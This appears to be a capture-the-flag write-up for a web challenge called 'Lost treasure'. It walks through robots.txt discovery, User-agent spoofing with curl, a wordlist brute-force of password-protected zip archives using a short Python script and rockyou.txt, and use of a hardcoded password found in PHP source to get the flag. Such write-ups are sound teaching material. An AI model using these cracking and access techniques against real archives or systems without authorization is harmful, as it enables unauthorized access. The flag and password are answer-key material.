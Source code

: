 # Lost treasure (50 pts)

>Ahoy! We 'ave lost a booty 'n know that thar be a map available t' find th' booty.
>Can ye help us find th' booty at <51.68.252.196:8081>.

### [~$ cd ..](../)

We are landed on a flat website:

![site](site.png)

As usual, I checked if there was a robots.txt and found:

> ```
>User-agent: BlackPearl
>Allow: /Isla de Muerta
>
>User-agent: Pirate
>Allow: /TreasureMaps
>
>User-agent: *
>Disallow: /Isla de Muerta
>Disallow: /TreasureMaps
> ```

I then sent a request with expected User-agent:

> ```sh
>% curl -H "User-agent: Pirate" "http://51.68.252.196:8081/TreasureMaps/"  > TreasureMaps.html
> ```

and got the following file:

> ```html
><html>
><head><title>Index of /TreasureMaps/</title></head>
><body bgcolor="white">
><h1>Index of /TreasureMaps/</h1><hr><pre><a href="../">../</a>
><a href="README.txt">README.txt</a>                                         19-Sep-2018 13:44                  98
><a href="map1.zip">map1.zip</a>                                           19-Sep-2018 13:44                1521
><a href="map10.zip">map10.zip</a>                                          19-Sep-2018 13:44                1521
><a href="map11.zip">map11.zip</a>                                          19-Sep-2018 13:44                1521
><a href="map12.zip">map12.zip</a>                                          19-Sep-2018 13:44                1521
><a href="map13.zip">map13.zip</a>                                          19-Sep-2018 13:44                1521
><a href="map14.zip">map14.zip</a>                                          19-Sep-2018 13:44                1521
><a href="map15.zip">map15.zip</a>                                          19-Sep-2018 13:44                1521
><a href="map16.zip">map16.zip</a>                                          19-Sep-2018 13:44                1521
><a href="map2.zip">map2.zip</a>                                           19-Sep-2018 13:44                1521
><a href="map3.zip">map3.zip</a>                                           19-Sep-2018 13:44                1521
><a href="map4.zip">map4.zip</a>                                           19-Sep-2018 13:44                1521
><a href="map5.zip">map5.zip</a>                                           19-Sep-2018 13:44                1521
><a href="map6.zip">map6.zip</a>                                           19-Sep-2018 13:44                1521
><a href="map7.zip">map7.zip</a>                                           19-Sep-2018 13:44                1521
><a href="map8.zip">map8.zip</a>                                           19-Sep-2018 13:44                1521
><a href="map9.zip">map9.zip</a>                                           19-Sep-2018 13:44                1521
></pre><hr></body>
></html>
> ```

Let's begin with the README:


> ```sh
>% curl -H "User-agent: Pirate" "http://51.68.252.196:8081/TreasureMaps/README.txt"             
>All our zip files are secured with passwords. Only someone called "RockYou" knows the passwords!
> ```

and the archives:

> ```sh
>for i in {1..16}; do curl -H "User-agent: Pirate" "http://51.68.252.196:8081/TreasureMaps/map$i.zip" -o "map$i.zip" ;done
> ```

I then naively started with a dictionnary attack with rockyou.txt using a for loop on each archive, but realized that it could no work:

> ```
>% for i in {1..16}; do fcrackzip -v -u -D -p rockyou.txt map$i.zip; done
> ```

because `fcrakzip` couldn't handle properly the kind of file:

> ```sh
>% file map1.zip
> map12.zip: Zip archive data, at least v5.1 to extract
>% unzip map1.zip 
>Archive:  map1.zip
>   skipping: f864ae468a              need PK compat. v5.1 (can do v4.6)
> ```

I looked for a tool is order to crack password quickly, but didn't found. I then realized that I didn't have to crack them all:

> ```sh
>% md5sum *                    
>b32697dc1e9e8da35b9732a8e2859657  map10.zip
>b32697dc1e9e8da35b9732a8e2859657  map11.zip
>b32697dc1e9e8da35b9732a8e2859657  map12.zip
>fe2f3b7c371400f331aa9e975bfc825a  map13.zip
>b32697dc1e9e8da35b9732a8e2859657  map14.zip
>b32697dc1e9e8da35b9732a8e2859657  map15.zip
>b32697dc1e9e8da35b9732a8e2859657  map16.zip
>b32697dc1e9e8da35b9732a8e2859657  map1.zip
>b32697dc1e9e8da35b9732a8e2859657  map2.zip
>b32697dc1e9e8da35b9732a8e2859657  map3.zip
>b32697dc1e9e8da35b9732a8e2859657  map4.zip
>b32697dc1e9e8da35b9732a8e2859657  map5.zip
>b32697dc1e9e8da35b9732a8e2859657  map6.zip
>b32697dc1e9e8da35b9732a8e2859657  map7.zip
>b32697dc1e9e8da35b9732a8e2859657  map8.zip
>b32697dc1e9e8da35b9732a8e2859657  map9.zip
>b828b8825c21ac97afce52afbaac5ca6  README.txt
>432e5e794481c58c572905d67c27d189  TreasureMaps.html
> ```

I then kept only [map12.zip](map12.zip) and [map13.zip](map13.zip) and wrote a (non-optimized) Python script to break the passwords:

> ```python
>import subprocess
>f = open('pirate.txt', 'r')
>passwords = f.read().splitlines()
>f.close()
>for word in passwords:
>	cmd = '7z e -y map12.zip -p%s' % word
>	process = subprocess.Popen(cmd.split(), stdout=subprocess.PIPE,stderr=subprocess.PIPE)
>	output, error = process.communicate()
>	if "ERROR" not in error:
>		print word
>		process = subprocess.Popen('wc f864ae468a'.split(), stdout=subprocess.PIPE,stderr=subprocess.PIPE)
>		output, error = process.communicate()
>		print output
>		print '-------------'
> ```

I made the assumption that they were related to the theme of the piracy.
I then grep'd rockyou in this way and run the script:

> ```sh
>% grep rockyou.txt -ie pirate > pirate.txt
>% run brute.py
> ohs pirate
> 0 0 0 f864ae468a
>
> -------------
> pirates arr cool
> 0 0 0 f864ae468a
>
> -------------
> pirate girl
> 0 0 0 f864ae468a
>
> -------------
> my pirate
> 0 0 0 f864ae468a
>
> -------------
> iwannabeapirate
> 90  209 3677 f864ae468a
>
> -------------
> i luv pirate forever
> 0 0 0 f864ae468a
>% 7z e -y map13.zip -piwannabeapirate 
>
> 7-Zip [64] 16.02 : Copyright (c) 1999-2016 Igor Pavlov : 2016-05-21
> p7zip Version 16.02 (locale=fr_FR.utf8,Utf16=on,HugeFiles=on,64 bits,4 CPUs Intel(R) Core(TM) i5-4200U CPU @ 1.60GHz (40651),ASM,AES-NI)
>
> Scanning the drive for archives:
> 1 file, 1521 bytes (2 KiB)
>
> Extracting archive: map13.zip
> --
> Path = map13.zip
> Type = zip
> Physical Size = 1521
>
> Everything is Ok
>
> Size:       3677
>Compressed: 1521
> ```

Password found! I then used "iwannabeapirate" and extract the file [f864ae468a](f864ae468a):

> ```php
><?php
>if (isset($_POST['submit'])){
>	if($_POST["password"] == "todayisagoodday") {
>		header("Location: "); //TODO: add treasure location
>		die();
>	}
>	else {
>		header("Location: brrrt.html");
>		die();
>	}
>}
>?>
>...
> ```

I then sent the following request to get the location of the treasure:

> ```sh
> % curl -d "submit=&password=todayisagoodday" -H "User-agent: BlackPearl" "http://51.68.252.196:8081/Isla de Muerta/index.php"  -v
> *   Trying 51.68.252.196...
> * TCP_NODELAY set
> * Connected to 51.68.252.196 (51.68.252.196) port 8081 (#0)
> > POST /Isla de Muerta/index.php HTTP/1.1
> > Host: 51.68.252.196:8081
> > Accept: */*
> > User-agent: BlackPearl
> > Content-Length: 32
> > Content-Type: application/x-www-form-urlencoded
> > 
> * upload completely sent off: 32 out of 32 bytes
> < HTTP/1.1 302 Moved Temporarily
> < Server: nginx/1.12.2
> < Date: Thu, 04 Oct 2018 16:32:14 GMT
> < Content-Type: text/html
> < Transfer-Encoding: chunked
> < Connection: keep-alive
> < X-Powered-By: PHP/5.4.16
> < Location: Treasure-fipeaifaeaFAFAEfa2eaf78af27zaaerdfae87.html
> < 
> * Curl_http_done: called premature == 0
> * Connection #0 to host 51.68.252.196 left intact
> ```

And capture the flag

> ```sh
> % curl -H "User-agent: BlackPearl" "http://51.68.252.196:8081/Isla de Muerta/Treasure-fipeaifaeaFAFAEfa2eaf78af27zaaerdfae87.html"  -v 
> *   Trying 51.68.252.196...
> * TCP_NODELAY set
> * Connected to 51.68.252.196 (51.68.252.196) port 8081 (#0)
> > GET /Isla de Muerta/Treasure-fipeaifaeaFAFAEfa2eaf78af27zaaerdfae87.html HTTP/1.1
> > Host: 51.68.252.196:8081
> > Accept: */*
> > User-agent: BlackPearl
> > 
> < HTTP/1.1 200 OK
> < Server: nginx/1.12.2
> < Date: Thu, 04 Oct 2018 16:33:14 GMT
> < Content-Type: text/html
> < Content-Length: 317
> < Last-Modified: Wed, 19 Sep 2018 13:44:20 GMT
> < Connection: keep-alive
> < ETag: "5ba252b4-13d"
> < Accept-Ranges: bytes
> < 
> <head>
>  <title>Treasure</title>
>  <style>
>    html, body, .container {
>        height: 100%;
>    }
>    .container {
>        color: white;
>        display: none;
>    }
>  </style>
></head>
><body>
>  <h1>Treasure</h1>
>  <div class="container">
>    <p>AllTreasuremapsLeadToATreasure</p>
>  </div>
></body>
>* Curl_http_done: called premature == 0
>* Connection #0 to host 51.68.252.196 left intact
> ```

FLAG: **AllTreasuremapsLeadToATreasure**
